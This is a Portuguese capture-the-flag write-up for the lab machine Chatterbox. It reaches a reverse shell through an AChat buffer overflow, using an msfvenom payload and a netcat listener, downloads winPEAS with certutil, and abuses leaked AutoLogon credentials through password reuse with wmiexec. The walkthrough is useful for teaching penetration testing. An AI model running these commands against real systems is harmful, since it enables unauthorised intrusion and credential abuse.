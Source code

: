 # Writeup chatterbox - PT-BR

## Scan

```bash
# Nmap 7.92 scan initiated Sun Dec 11 09:50:33 2022 as: nmap -sVC -A -Pn -v -T5 -p 135,139,445,9255,9256,49152,49153,49154,49155,49156,49157 -oN Fullnmap.txt 10.129.33.23
Nmap scan report for 10.129.33.23
Host is up (0.16s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
9256/tcp  open  achat        AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 SP1 (99%), Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 R2 SP1 (96%), Microsoft Windows 7 (96%), Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1 (96%), Microsoft Windows 7 SP1 (96%), Microsoft Windows 7 Ultimate (96%), Microsoft Windows Vista or Windows 7 SP1 (96%), Microsoft Windows Vista SP1 - SP2, Windows Server 2008 SP2, or Windows 7 (96%), Microsoft Windows Vista SP2 (96%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.010 days (since Sun Dec 11 09:37:53 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=253 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h40m04s, deviation: 2h53m15s, median: 5h00m02s
| smb2-security-mode:
|   2.1:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2022-12-11T19:51:52
|_  start_date: 2022-12-11T19:38:08
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-12-11T14:51:53-05:00

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   156.56 ms 10.10.14.1
2   156.70 ms 10.129.33.23

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 11 09:51:59 2022 -- 1 IP address (1 host up) scanned in 86.74 seconds
```

## Enumeration

    Uma vez feito o scan, podemos notar que a porta **9255** e **9256** estão executando o Achat.

    Com uma breve pesquisa é possível descobrir que existe um exploit de Buffer OverFlow para o Achat --> [Achat 0.150 beta7 - Remote Buffer Overflow - Windows remote Exploit](https://www.exploit-db.com/exploits/36025)

## Exploitation

    Para podermos pegar uma shell usando o exploit encontrado, precisamos modificar seu payload e seu alvo.

> Gerar Payload com o MSF

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp RHOST=TARGET_IP LHOST=MACHINE_IP LPORT=1234 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

    Com o payload gerado, podemos fazer a mudança no exploit e logo em seguida mudar o host alvo.

    Com as mudanças feitas, executamos o exploit e pegamos shell.

> Shell Reversa

```bash
└─$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.11] from (UNKNOWN) [10.129.75.248] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
chatterbox\alfred
```

    Com a shell podemos pegar a flag.

> User Flag

```bash
C:\Users\Alfred\Desktop>type user.txt
0c073371f326498a60828d77a3739356
```

## Privilege Escalation

    Essa máquina possui dois meios de se pegar a flag de root.

### Método Um

    Com a shell com usuário Alfred, é possível ver que ele possui acesso ao diretório do administrador.  

    Usando o **icacls** podemos ver suas permissões

```bash
C:\Users\Administrator>icacls Desktop
Desktop CHATTERBOX\Administrator:(F)
        NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
        CHATTERBOX\Administrator:(I)(OI)(CI)(F)
        BUILTIN\Administrators:(I)(OI)(CI)(F)
        CHATTERBOX\Alfred:(I)(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files
```

```bash
C:\Users\Administrator\Desktop>icacls root.txt
root.txt CHATTERBOX\Administrator:(F)
```

    Podemos ver que o usuário Alfred possui as mesmas permissões que o Administrator, então podemos mudar a permissão do arquivo **root.txt** para permissão total para o usuário do Alfred para podermos ler seu conteúdo.

```bash
C:\Users\Administrator\Desktop>icacls root.txt /grant Alfred:F
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files
C:\Users\Administrator\Desktop>type root.txt
eb84edd97bcdcffcf959f60bd4ab265d
```

    Referência comando **icacls** --> [icacls | Microsoft Learn](https://learn.microsoft.com/pt-br/windows-server/administration/windows-commands/icacls)

### Método Dois

    Com a shell com usuário Alfred, podemos utilizar o comando certuil para baixamos o winpeas para máquina e ver o que encontramos.

```bash
certutil -urlcache -f http://IP:80/winPEASx86.exe winPEASx86.exe
```

    Com o winpeas baixado, podemos executar na máquina e esperar os resultados.

    Após executar e analizar, podemos ver o seguinte trecho com credenciais de AutoLogon

```bash
����������͹ Home folders found
    C:\Users\Administrator : Alfred [AllAccess]
    C:\Users\Alfred : Alfred [AllAccess]
    C:\Users\All Users
    C:\Users\Default
    C:\Users\Default User
    C:\Users\Public : Interactive [WriteData/CreateFiles]

����������͹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultUserName               :  Alfred
    DefaultPassword               :  Welcome1!
```

    Com essas credenciais, podemos testar se o Administrador também as usa (Password Reuse).

```bash
└─$ cme smb 10.129.75.248 -u Administrator -p 'Welcome1!'
SMB         10.129.75.248   445    CHATTERBOX       [*] Windows 7 Professional 7601 Service Pack 1 (name:CHATTERBOX) (domain:Chatterbox) (signing:False) (SMBv1:True)
SMB         10.129.75.248   445    CHATTERBOX       [+] Chatterbox\Administrator:Welcome1! (Pwn3d!)
```

    Como o administrador também usa essa senha, podemos usar o wmiexec para pegar shell.

```bash
python3 wmiexec.py Chatterbox/Administrator:'Welcome1!'@10.129.75.248 -shell-type powershell
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

[*] SMBv2.1 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
PS C:\> whoami
chatterbox\administrator

PS C:\>
```

> Root Flag

```powershell
PS C:\> cd Users/Administrator/Desktop
PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-ar--        12/11/2022   3:37 PM         34 root.txt                          



PS C:\Users\Administrator\Desktop> cat root.txt
eb84edd97bcdcffcf959f60bd4ab265d
```
